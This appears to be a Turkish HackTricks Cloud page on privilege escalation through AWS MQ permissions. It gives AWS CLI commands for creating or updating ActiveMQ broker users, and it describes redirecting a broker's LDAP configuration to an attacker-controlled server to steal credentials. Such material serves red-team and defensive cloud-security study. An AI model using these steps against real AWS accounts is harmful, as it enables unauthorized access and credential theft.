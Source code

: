# AWS - MQ Yetki Yükseltme

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## MQ

MQ hakkında daha fazla bilgi için şu adrese bakın:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Bu izinlerle birlikte **ActimeMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potansiyel Etki:** ActiveMQ üzerinde gezinerek hassas bilgilere erişim

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Bu izinlerle birlikte **ActimeMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potansiyel Etki:** ActiveMQ üzerinden hassas bilgilere erişim

### `mq:ListBrokers`, `mq:UpdateBroker`

Eğer bir broker **ActiveMQ** ile yetkilendirme için **LDAP** kullanıyorsa, saldırganın kontrolünde olan bir LDAP sunucusunun yapılandırmasını **değiştirmek** mümkündür. Bu şekilde saldırgan, LDAP üzerinden gönderilen tüm kimlik bilgilerini **çalmayı** başaracaktır.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Eğer ActiveMQ tarafından kullanılan orijinal kimlik bilgilerini bulabilirseniz bir MitM gerçekleştirebilir, kimlik bilgilerini çalabilir, bunları orijinal sunucuda kullanabilir ve yanıtı gönderebilirsiniz (belki sadece çalınan kimlik bilgilerini yeniden kullanarak bunu yapabilirsiniz).

**Potansiyel Etki:** ActiveMQ kimlik bilgilerini çalmak

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* Hacking püf noktalarını paylaşarak PR'ler göndererek **HackTricks** ve **HackTricks Cloud** github depolarına katkıda bulunun.

</details>
{% endhint %}
